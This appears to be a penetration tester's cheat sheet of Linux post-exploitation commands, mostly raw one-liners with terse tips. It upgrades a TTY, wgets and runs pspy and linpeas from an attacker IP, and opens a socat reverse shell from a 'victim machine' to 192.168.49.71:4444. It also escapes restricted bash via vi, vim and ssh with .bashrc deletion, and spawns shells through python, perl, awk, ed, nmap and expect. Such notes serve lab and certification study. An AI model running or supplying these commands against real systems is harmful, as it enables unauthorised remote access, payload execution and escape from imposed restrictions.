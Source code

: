 Out of the gate.

python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp:/snap/bin
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Keyboard Shortcut: Ctrl + Z (Background Process.)
stty raw -echo ; fg ; reset
stty columns 200 rows 200
stty columns 150 rows 150

wget http://192.168.45.238:8000/pspy64 -O /dev/shm/pspy;chmod +x /dev/shm/pspy;wget http://192.168.45.238:8000/linpeas_fat.sh -O /dev/shm/linpeas_fat.sh;chmod +x /dev/shm/linpeas_fat.sh;/dev/shm/pspy;
/dev/shm/linpeas.sh

// Pimp out linux shell
which socat
socat file:`tty`,raw,echo=0 tcp-listen:4444 #On Kali Machine
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.49.71:4444 #On Victim Machine

(stty size)
 
* Don't forget that you can always set the terminal history to be infinite, and the keystroke scroll back. 

* Grab a valid tty.
* What OS are you on? Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD
* Want a color terminal to easily tell apart file permissions? Directories? Files?
* Fastest way to list out the files in a directory, show size, show permissions, human readable.
* Make this shell stable.



Is this rbash (Restricted Bash)? PT1
$ vi
:set shell=/bin/sh
:shell

$ vim
:set shell=/bin/sh
:shell

Is this rbash (Restricted Bash)? PT2
(This requires ssh user-level access)
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
ssh user@127.0.0.1
(Bash Shell)

Is python present on the target machine?
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'

Is perl present on the target machine?
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

Is AWK present on the target machine?
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

Is ed present on the target machines?
ed
!sh

IRB Present on the target machine?
exec "/bin/sh"

Is Nmap present on the target machine?
nmap --interactive
nmap> !sh

Expect:

expect -v
  expect version 5.45.4
  
$ cat > /tmp/shell.sh <<EOF
#!/usr/bin/expect
spawn bash
interact
EOF

$ chmod u+x /tmp/shell.sh
$ /tmp/shell.sh